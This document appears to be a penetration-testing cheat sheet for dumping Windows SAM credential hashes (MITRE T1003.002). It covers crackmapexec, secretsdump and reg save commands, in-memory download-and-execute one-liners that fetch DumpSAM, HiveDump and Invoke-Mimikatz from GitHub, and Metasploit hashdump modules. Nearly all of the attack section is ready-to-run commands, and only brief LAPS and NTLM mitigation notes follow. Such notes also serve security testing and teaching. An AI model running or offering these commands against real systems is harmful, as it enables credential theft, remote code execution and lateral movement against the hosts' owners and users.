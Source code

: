 ```yaml
---
date: 
tags:
  - ActiveDirectory
  - SAM
---
```


```table-of-contents
```

# description: 

https://attack.mitre.org/techniques/T1003/002/

# Security Account Manager (SAM)

**ATT\&CK ID:** [T1003.002](https://attack.mitre.org/techniques/T1003/002/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries may attempt to extract credential material from the Security Account Manager (SAM) database either through in-memory techniques or through the Windows Registry where the SAM database is stored. The SAM is a database file that contains local accounts for the host, typically those found with the `net user` command. Enumerating the SAM database requires SYSTEM level access.

## Linux Techniques

### Crackmapexec

```bash
crackmapexec smb <IP> -u <User> -p <Password> --sam

# Use the local-auth parameter when authenticating as a local account
crackmapexec smb <IP> -u <User> -p <Password> --sam --local-auth
```

![](../../../Assets/Pasted%20image%2020250619220402.png)

### Secretsdump

```bash
# Dump from SAM and SYSTEM. Ensure files are in current working directory
secretsdump.py -sam SAM -system SYSTEM LOCAL 
```

![](../../../Assets/Pasted%20image%2020250619220419.png)

## Windows Techniques

```powershell
# Manually save SAM and SYSTEM files (if needed for any tools below)
reg save HKLM\SAM c:\Exfiltration\SAM
reg save HKLM\SYSTEM c:\Exfiltration\SYSTEM
```

### DumpSam

This tool will filter out some default accounts such as Guest and the wdagutilityaccount account from the results.

Github: [https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1](https://github.com/The-Viper-One/PME-Scripts/blob/main/DumpSAM.ps1)

```powershell
# Download and execute
IEX (IWR -UseBasicParsing https://raw.githubusercontent.com/The-Viper-One/PME-Scripts/main/DumpSAM.ps1)
```

### HiveDump

Github: [https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1](https://github.com/tmenochet/PowerDump/blob/master/HiveDump.ps1)

```powershell
# Load into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/tmenochet/PowerDump/master/HiveDump.ps1)

# Dump
Invoke-HiveDump
```

### Mimikatz

Github: [https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1](https://github.com/BC-SECURITY/Empire/blob/main/empire/test/data/module\_source/credentials/Invoke-Mimikatz.ps1)

<pre class="language-powershell"><code class="lang-powershell"><strong># Load into memory
</strong><strong>IEX (IWR -UseBasicParsing "https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-Mimikatz.ps1")
</strong><strong>
</strong><strong># Dump from SAM and SYSTEM. Enusre files are in current working directory
</strong>Invoke-Mimikatz -command "lsadump::sam /system:SYSTEM /sam:SAM"

# Dump against the Live Hive Files

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
</code></pre>

## Metasploit

```bash
# Modules
use post/windows/gather/hashdump
use post/windows/gather/credentials/credential_collector

# Meterpreter Shell
hashdump

# Extension:Kiwi
lsa_dump_s
```

![](../../../Assets/Pasted%20image%2020250619220438.png)

## Mitigation

### LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

{% embed url="https://www.microsoft.com/en-us/download/details.aspx?id=46899" %}

### Restrict NTLM Traffic

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/jj865668(v=ws.10)?redirectedfrom=MSDN" %}
